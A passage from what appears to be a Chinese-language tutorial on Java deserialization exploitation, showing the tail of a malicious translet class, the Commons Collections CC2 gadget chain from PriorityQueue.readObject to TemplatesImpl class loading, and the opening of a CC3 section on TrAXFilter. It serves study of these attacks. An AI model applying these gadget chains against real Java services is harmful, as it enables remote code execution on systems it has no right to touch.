             namesArray[1] = "123";
        }
    
        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    
        }
    
        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    
        }
    }
    ```

3. 链大致如下：
    ```java
    /*
    	PriorityQueue.readObject()
    	    PriorityQueue.heapify()
    	        PriorityQueue.siftDown() -> siftDownUsingComparator
    	            TransformingComparator.compare()
    	                InvokerTransformer.transform()
    	                    TemplatesImpl.newTransformer()
    	                        TemplatesImpl.getTransletInstance()
    	                            TemplatesImpl.defineTransletClasses()
    	                                TemplatesImpl.getTransletInstance()._class[_transletIndex].newInstance()
    */
    ```

## 9. CC3 = CC1 + CC2 + 创新

### 9.1 新的 chain - `TrAXFilter` + `InstantiateTransformer`

1. CC3 的 sink 依旧是 CC2 的 `TemplatesImpl`，不过其选用了新的 chain。之前都是通过 `InvokerTransformer` 的强大反射来调用 `TemplatesImpl.newTransformer()`，那么这回能否找到一个类，从而直接定向的执行该方法呢？CC3 中所使用的就是 `TrAXFilter`。